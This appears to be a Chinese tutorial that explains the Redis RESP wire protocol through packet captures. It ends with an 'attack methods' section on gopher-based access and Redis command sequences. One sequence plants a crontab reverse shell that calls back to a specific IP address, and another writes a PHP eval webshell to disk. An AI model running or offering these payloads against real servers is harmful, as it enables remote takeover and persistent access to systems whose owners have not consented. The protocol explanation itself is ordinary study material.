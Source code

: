 ## redis 简介
redis 是一个非关系型的，远程字典-键值服务器。而我们的
## 通信方式：
我们的目的是：模拟我们的某一个软件，并且通过这一个软件向我们的**redis**服务器请求我们的某一个数据。之后，我们再根据我们的数据。

我们作为我们的正常端，我们应该先去连接我们的 redis 服务器。
```
redis-cli -h 127.0.0.1 -p 8000

nc 127.0.0.1 8000
```

连接上我们的服务器后，如果我们爱需要认证的话，我们还需要进行认证：
```
auth 123123
```

认证结束后，我们就可以从我们的数据库中获取我们的对应的信息：
```
get 1
```

## Redis 格式：
### 数据类型前缀

在数据包中，每种数据数据类型都有固定的前缀，每一部分都以`\r\n`结尾

- `+`代表简单字符串（Simple Strings）比如`OK`，`PONG`（对应客户端的`PING`命令）
    
- `-`代表错误类型（Errors）
    
- `:`代表整型（Integers）
    
- `$`代表多行字符串（Bulk Strings）
    
- `*` 代表数组（Arrays）

### 样例：
1、首先发送的命令是 `info`，先看右边部分，可以看到一开始是 `*1：表示长度为1的数组`，后边的 `··` 对应左边是 `0d 0a`，其实就是 `\r\n` 的16进制表示形式，然后后边 `$4：代表长度为4的Bulk Strings，也就是info`，后边紧跟着 `info`，

![发送info命令](https://img-blog.csdnimg.cn/img_convert/4a72e5f35ed8959247d86ac433b4e99f.png)

info命令返回数据包：`$2748：长度为2748的Bulk Strings`，后边便是服务器相关信息  
![服务器info返回](https://img-blog.csdnimg.cn/img_convert/a5aaa9196e4449697bd5c688c286b6a4.png)

2、`set xfh 111`命令：`*3：长度为3的数组`，后边是数组里的3个元素：`$3··set（长度为3的Bulk Strings）`、`$3··xfh`、`$3··111`  
![set命令](https://img-blog.csdnimg.cn/img_convert/d2f787a133d5034e506d132891439d37.png)  
返回数据：`+OK（代表简单字符串‘OK’）`，这里边可能有人会问：简单字符串（Simple Strings）和多行字符串（Bulk Strings）有什么区别？？我的个人理解是：`简单字符串一般是服务器状态相关，比如'OK'、‘PONG’等；而Bulk Strings可以包含任何内容（比如换行符、控制符）`  
![set返回](https://img-blog.csdnimg.cn/img_convert/e7c04e0ce5d54a389900d552e5c4d508.png)

3、命令`lpush xfhlist 1 2 3`：看到这相信大家都已经明白了，`*5代表长度为5的数组`，后边紧跟着5个Bulk Strings `lpush`、`xfhlist`、`1`、`2`、`3`，而且每个元素的前边都有长度，分别是`$5`、`$7`、`$1`、`$1`、`$1`。  
![lpush](https://img-blog.csdnimg.cn/img_convert/98300ee33b9f698453880e1b20a57114.png)

返回：`:3`（表示整形数据3）  
![](https://img-blog.csdnimg.cn/img_convert/6b24a7afda5c5801b2cbd958bdf31ace.png)

4、命令`ee`，这是个错误命令，redis中没有这个命令，应该返回语法错误  
![命令ee](https://img-blog.csdnimg.cn/img_convert/5caa0c5d6e23ccac3237ae3bfb577285.png)

返回：发现前缀是`-`，对应RESP协议中的错误类型，后边紧跟着`ERR unknown command 'ee'`  
![语法错误返回](https://img-blog.csdnimg.cn/img_convert/b12312cebfe8c42e690876b1b884fc9f.png)

## 攻击方法：
#### 查询数据
我们根据我们原有**查询指令**对应的 tcp 协议包是怎么传输的，之后我们再去通过我们的**gopher**协议去直接访问我们的对应的连接。

#### 写 crontab
我们通过把我们的备份文件写入到我们的 crontab 当中，然后再去把我们的 crontab 来进行处理。
```
auth 123123
set mars "\\n\\n\\n\\n * * * * * root bash -i >&/dev/tcp/121.132.237.224/12350>&1\\n\\n\\n\\n"
config set dir /etc/
config set dbfilename crontab
save 
quit
```

#### 写备份文件
```
set mars "<?php eval($_POST[0]);?>"
config set dit /tmp/
config set dbfilename shell.php
save
quit
```
之后，我们呢就会能够生成一个 `shell.php` 文件，然后我们就可以对我们的文件来进行操作。



